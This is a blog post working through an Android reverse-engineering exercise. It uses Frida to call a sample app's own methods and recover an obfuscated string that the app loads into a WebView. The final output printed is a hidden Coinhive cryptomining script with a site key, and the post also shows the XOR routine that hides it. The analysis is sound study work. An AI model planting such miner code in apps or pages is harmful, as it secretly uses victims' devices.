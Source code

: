 ```yaml
---
layout: post
title: "Deobfuscating with Frida Exercise"
date: 2022-07-06
---
```


Lately been diving a little deeper into my side journey with Android app reversing.

I went over Maddie Stone's amazing course [here](https://www.ragingrock.com/AndroidAppRE/app_fundamentals.html). I have not mastered much but decided to take on one exercise at a time. The [last exercise](https://www.ragingrock.com/AndroidAppRE/obfuscation.html#exercise-7---string-deobfuscation) in the course goes over string deobfuscation. There are Java methods that are passed in app to take a mysterious obfuscated string and reverse it back to being human readable for a Webview method to load it.

```
webView.loadData(z1.b(new String(z1.a("773032205849207A38313
26F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B531637352
22D393B475C7A37222D7F38421B6A6664303220584920647730322058492
0643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5
F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B1
01F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342
E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8"))), "text/html", null);
```

In the exercise, it was cracked by reimplementing the methods in Python and mirroring the code to deobfuscate the string. However, I came across an [interesting tutorial](https://1337.dcodx.com/mobile-security/owasp-mstg-crackme-1-writeup-android) using [Frida](https://frida.re/). A "Dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers." Being a Frida novice I wanted to take the time to learn more beyond using given scripts. Even though the community scripts are very very useful! With Frida, you can utilize and load the classes and methods to sort of "replay" what the app is doing with the data passed to it. So, combining this knowledge with the exercise from Maddie's course, I tried my hand at dynamically cracking the string using the methods as given in the example app.

I. Install the app. I grabbed it out of the VM given in the exercise from Android RE course and installed on an emulated Android.

`adb install apks\ClashOfLights.apk`

Side note: Of course I already have Android Studio for a few reasons. Not only does it have Android Emulator tool, but it has a JADX-GUI plugin you can install to decompile APKs.

II. Write the Javascript hook Frida will use.

Looking at this code snippet, I threw in the one class and 2 methods I would need.

```
package com.supercell.titan;

/* loaded from: classes.dex */
public class z1 {
    private static final char[] a = "0123456789ABCDEF".toCharArray();

    public static byte[] a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }
}
```

So I need class `z1` and it's methods, `a` and `b`.

**deob.js**
```

setImmediate(function() {
    console.log("[*] Start");

    Java.perform(function() {

        var str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D3
        93B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C3
        83C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331
        717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

        console.log("[*] Loading z1")
        var clazz_z1 = Java.use('com.supercell.titan.z1');
        // var bytes = clazz_z1.a(str); For some reason the byte array had spaces so had I just hardcoded it below for clarity of what method z1.a does...
        console.log("[*] UTF-8 String from Byte array created from clazz_z1.a(str)")
        var str2 = String.fromCharCode(119,48,50,32,88,73,32,122,56,49,50,111,19,81,32,46,59,48,107,125,30,90,59,
        51,37,43,56,36,84,23,55,53,38,108,61,59,83,22,55,53,34,45,57,59,71,92,122,55,34,45,127,56,66,27,106,102,
        100,48,50,32,88,73,32,100,119,48,50,32,88,73,32,100,61,34,35,114,92,80,58,63,57,99,108,114,95,92,35,122,
        8,44,56,60,121,80,34,63,101,2,63,61,95,64,57,53,62,48,121,117,95,95,102,110,17,52,20,31,92,76,100,55,122,
        27,103,31,86,90,27,44,127,123,16,31,66,112,13,31,57,51,23,23,22,21,116,33,63,43,35,55,80,93,39,96,107,113,
        44,123,10,84,61,52,46,49,127,33,69,88,38,46,99,106,106,110,30,74,55,40,34,51,37,108)
        console.log("[*] Using method b from class z1")
        var result = clazz_z1.b(str2);
        console.log()
        console.log("****** DEOBFUSCATED STRING ******")
        console.log(result)
        console.log("****** DEOBFUSCATED STRING ******")
        console.log()
    })
    
    console.log("[*] End");

})

```

Not pretty, but does the job!


III. Orchestrate the Frida server on the emulated Android and then hook this JS into the app to run.


`adb push ./frida-server-15.1.20-android-x86 /data/local/tmp/frida-server` <--- based on architecture of the device. Frida docs are great with guiding with this but I also love [this tutorial](https://httptoolkit.tech/blog/frida-certificate-pinning/#install-and-start-frida-on-the-device) as well.

`adb root`

`adb shell "chmod 755 /data/local/tmp/frida-server"`

`frida -U -l ./deob.js -f com.clashof.lights`s

Running this I got:

```
C:\Users\Alexis\platform-tools>frida -U -l ./deob.js -f com.clashof.lights
     ____
    / _  |   Frida 15.1.20 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Spawning `com.clashof.lights`...
[*] Start
[*] End
Spawned `com.clashof.lights`. Use %resume to let the main thread start executing!
[Android Emulator 5554::com.clashof.lights ]-> %resume


Frida Output

[*] Start
[*] Loading z1
[*] UTF-8 String from Byte array created from clazz_z1.a(str)
[*] Using method b from class z1

****** DEOBFUSCATED STRING ******
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
****** DEOBFUSCATED STRING ******

[*] End
```

There you go, the deobfuscated string dynamically grabbed through Frida!
